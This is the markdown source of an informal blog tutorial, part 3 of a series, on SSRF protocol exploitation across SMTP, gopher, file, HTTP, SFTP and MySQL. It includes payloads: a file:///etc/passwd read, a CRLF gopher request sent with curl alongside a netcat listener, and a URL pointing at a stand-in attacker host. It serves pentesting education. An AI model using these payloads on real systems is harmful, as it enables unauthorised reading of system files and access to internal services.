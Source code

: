 ```yaml
---
layout: post
published: true
title: Breaking the ssrf protocol Part:3
tags:
 - ssrf
 - web pentesting
 comments: true

---
```

# protocol and it's types
hey folks? what’s up hope you are well in pandemic First of all i want to apologize for writing article lately because i was busy in making project in python 3soon I will release my tool stay tuned I am not here to advertise my tool XD nor you to see my adverstisment. So in this section i will cover protocol exploitation with ssrf we can exploit protocols like gopher,http,mysql,intranet,smtpetc. to attack on web application and stealing data and abuse web application
This section and upcoming section gonne be on advance level of ssrf if you have any concept related to ssrf first clear it via previous two parts
before diving into the exploiting protocols let’s clear about basic definition and working of these protocol There are lots of protocols but as you know i hate long articles so i cover up only main protocols definition and rest of protocols i leave on you to resarch :)
Protocols And Its Types
Basically what are protocols? protocols are nothing it’s just a set of rules for exchanging data. There are many protocols available for transferring files(ftp), for mailing(smtp), for calling(voip) etc. are used since this article is on exploiting ssrf we will talk about those protocls which are abused by ssrf for exploiting web application

# Exploitation

let’s break these protocols with the help of ssrf ^_^
SMTP(simple mail transfer protocol)- for sending,receiving email
thanx to this guy we have a unique way for exploiting smtp
Probably an obvious SSRF trick for pros but I just figured out:)
```
1. cononnect with SSRF on smtp localhost:25
2 from the first line get the internal domain name 220 http://blabla.internaldomain.com ESMTP Sendmail
3 search http://internaldomain.com on github, find subdomains
4 connect
there are other various techniques for exploiting smtp like creating a payload and host it on server then send mail you can read awesome article
```

2. gopher -
as we all know gopher is very old protocols used for fetching files on webserver but it got very very old since its not used in wide number of applications but with ssrf we can exploit gopher and http as in previous article i said unsanitized data leads to file fetching but why the files are fetched?? just because of these protocols
Gopher exploitation is very vast we can exploit http,redis,telnet,ftp and many more here is a awesome tool which create payloads for these protocols. We can’t cover all gopher exploitation in this article because it won’t possible if i gonna cover it took very much time and article gonna long and long I will explain all exploitation techniques on gopher separately in next article In this article i will depict basic exploitation of gopher if you wanna learn advance level exploitation of gopher you can read it here
```
$gopher://<host>:<port>/<gopher-path>
$ curl gopher://localhost:2222/hello%0agopher

$ nc -lvvp 2222
listening on [any] 2222 …
connect to [127.0.0.1] from localhost [127.0.0.1] 34116
ello
gopher
```
that’s how we do the basic level exploitation of gopher with crlf (carriage return line and feed) we can use gopher to exploit mysql,redis,http,smtp and so on I will show and explain every techinque in Unique article dedicated to gopher exploitation

3.file://
basically it fetches files from external resources we can exploit it with replacing a file with our payload
**www.justfortest.com?php?fetch=file:///etc/passwd**
it will show content of /etc/passwd file which contains system id of admin and user

4.HTTP(hyper text transfer protocol)
I don’t think that it’s a topic of explain XD let’s come at exploitation
**www.justfortest.com?php?url=http://localhost:21**
it will fetch content of localhost to hacker

5.SFTP(secure file transfer protocol)
protocol used in sending files securely
**www.justfortest.com?url=sftp://evul.com:3333**

6.mysql
protocol used between mysqlclient and server
well, i can’t explain better then this read this article
That’s all for today i covered all various protocol for exploiting with the help of ssrf In next article i will do chaining of ssrf with critical and some low level bugs and if there is any mistake or i forgot to mention any important protocol then let me know in comments :)

